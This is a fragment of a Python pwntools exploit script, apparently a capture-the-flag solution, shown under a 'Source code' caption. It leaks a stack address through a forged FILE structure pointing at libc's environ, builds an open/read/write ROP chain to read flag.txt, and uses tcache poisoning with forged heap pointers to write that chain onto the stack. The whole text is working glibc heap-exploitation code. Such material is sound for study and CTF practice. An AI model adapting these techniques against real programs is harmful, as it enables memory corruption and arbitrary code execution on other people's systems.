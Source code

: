 ```py
                           libc.sym.environ, # _IO_read_base
                           libc.sym.environ, # _IO_write_base
                           libc.sym.environ + 0x8, # _IO_write_ptr
                           libc.sym.environ + 0x8, # _IO_write_end
                           libc.sym.environ + 0x8, # _IO_buf_base
                           libc.sym.environ + 8 # _IO_buf_end
                           )
        )

    stack = pwn.u64(io.recv(8)[:-1].ljust(8, b"\x00")) - 0x160 # stackframe of fgets
    pwn.log.info(f"stack: {hex(stack)}")

    rop = pwn.ROP(libc, base=stack)

    # ROPchain
    rop(rax=pwn.constants.SYS_open, rdi=stack + 0xde + 2 - 0x18, rsi=pwn.constants.O_RDONLY) # open
    rop.call(rop.find_gadget(["syscall", "ret"]))
    rop(rax=pwn.constants.SYS_read, rdi=3, rsi=(stack & ~0xfff), rdx=0x300) # file descriptor bf ...
    rop.call(rop.find_gadget(["syscall", "ret"]))

    rop(rax=pwn.constants.SYS_write, rdi=1, rsi=(stack & ~0xfff), rdx=0x50) # write
    rop.call(rop.find_gadget(["syscall", "ret"]))
    rop.raw("./flag.txt\x00")

    # victim => tcache
    free(8) 
    
    # prev => tcache 0x140
    free(7) 

    # tcache poisoning
    add(5, 0x130, b"T"*0x100 + pwn.p64(0) + pwn.p64(0x111) + pwn.p64(((stack - 0x28) ^ ((heap + 0x2b90) >> 12))))
    add(2, 0x100, b"TT") # dumb

    print(rop.dump())
    add(3, 0x100, pwn.p64(0x1337)*5 + rop.chain())

    io.interactive()

if __name__ == "__main__":
    exp()
```